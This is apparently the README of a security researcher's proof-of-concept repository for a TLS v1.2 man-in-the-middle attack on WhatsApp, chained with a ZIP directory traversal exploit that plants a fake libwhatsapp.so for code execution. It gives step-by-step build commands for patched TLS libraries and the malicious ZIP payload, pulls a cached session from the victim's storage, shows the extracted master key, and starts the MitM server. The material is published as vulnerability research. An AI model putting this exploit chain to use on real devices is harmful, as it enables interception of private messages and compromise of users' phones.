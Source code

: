 # TLS v1.2 MitM and code execution toolset for WhatsApp

This directory contains the tooling required for performing TLS v1.2 MitM against
WhatsApp and exploiting the ZIP directory traversal vulnerability analyzed in
our blog post.


## Preparation

In the following we assume environment variable `$POC` points to the root
directory of this repository.

Prepare OpenSSL 1.1.1f source code for TLS v1.2 MitM:

    cd /tmp
    curl -O https://ftp.openssl.org/source/old/1.1.1/openssl-1.1.1f.tar.gz
    tar -zxvf openssl-1.1.1f.tar.gz
    mv openssl-1.1.1f openssl-1.1.1f-tls12
    cd openssl-1.1.1f-tls12
    patch -p1 < $POC/openssl-1.1.1f-patches/tls12-mitm.patch
    ./config -d no-shared
    make -j8

Prepare BoringSSL source code (commit **2e5f38a1d871305ffeb0c932d421b01fd43a4168**)
for TLS v1.2 MitM:

    cd /tmp
    git clone https://boringssl.googlesource.com/boringssl
    cd boringssl
    git checkout 2e5f38a1d871305ffeb0c932d421b01fd43a4168
    mkdir build
    cd build
    cmake ..
    make -j8

Generate server certificate and keys for MitM:

    cd $POC/secrets
    ./gen_certs.sh

Now, build the ZIP payload. To do that you also need to specify the path to an
Android Aarch64 cross-compiler toolchain, that will be used to build our fake
**libwhatsapp.so**:

    cd $POC/tls12_psk_extract/payload
    export CROSS_COMPILE=/opt/android-ndk/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android28-
    make
    ./create_zip.sh
    cd ..
    mv payload/payload.zip .

Prepare environment variables:

    export OPENSSL_SRC=/tmp/openssl-1.1.1f-tls12
    export BORINGSSL_SRC=/tmp/boringssl
    export SECRETS=$POC/secrets

Your current directory should now be `$POC/tls12_psk_extract`.

As a final step we need to build **openssl_session.c** and **boringssl_session.c**.
To do that, just type:

    make

Prior to that, however, you might need to tweak **Makefile** a bit.


## Usage

Let's assume a serialized session to **crashlogs.whatsapp.net** was successfully
extracted from the victim's external storage. We can simulate this scenario by
pulling the following file directly from the target device:

    adb pull /sdcard/Android/data/com.whatsapp/cache/SSLSessionCache/crashlogs.whatsapp.net.443

Next step involves converting the session from BoringSSL DER format to OpenSSL
DER format, so that it can be used by OpenSSL's `s_server`.

    $ ./convert_session.sh crashlogs.whatsapp.net.443
    Set SSL version 771
    Set session id 769bc576393a14450303738d6c81e23489252ba59191f09705d6bb4c6fc6168f
    Set master key 4f562b2c813b429e35cdd08574184d9a6a83d6b2d1c786521c2e49f9a28e6e996a4cf171225e353f60fb71a10d6ff8e8
    Set cipher ECDHE-ECDSA-AES128-GCM-SHA256, id 50380843
    SSL-Session:
        Protocol  : TLSv1.2
        Cipher    : ECDHE-ECDSA-AES128-GCM-SHA256
        Session-ID: 769BC576393A14450303738D6C81E23489252BA59191F09705D6BB4C6FC6168F
        Session-ID-ctx:
        Master-Key: 4F562B2C813B429E35CDD08574184D9A6A83D6B2D1C786521C2E49F9A28E6E996A4CF171225E353F60FB71A10D6FF8E8
        PSK identity: None
        PSK identity hint: None
        SRP username: None
        Start Time: 1611759604
        Timeout   : 304 (sec)
        Verify return code: 0 (ok)
        Extended master secret: yes
    -----BEGIN SSL SESSION PARAMETERS-----
    MHYCAQECAgMDBALAKwQgdpvFdjk6FEUDA3ONbIHiNIklK6WRkfCXBda7TG/GFo8E
    ME9WKyyBO0KeNc3QhXQYTZpqg9ay0ceGUhwuSfmijm6ZakzxcSJeNT9g+3GhDW/4
    6KEGAgRgEX/0ogQCAgEwpAIEAK0DAgEB
    -----END SSL SESSION PARAMETERS-----

Last but not least, run the following script to start the MitM server:

    ./run_server.sh


## Bonus

**openssl\_http\_pipe.py** can be used for spawning an OpenSSL `s_server`
instance and creating a bidirectional pipe with the latter's standard input and
output. This, in turn, allows one to manually parse incoming HTTP requests and
implement custom HTTP logic in Python, using standard built-in classes like
`BaseHTTPRequestHandler`. In fact, this script was used for setting up the Noise
keys extraction demo, presented in our blog post. People wishing to experiment
with their own MitM infrastructure can modify this script to implement their own
callbacks.

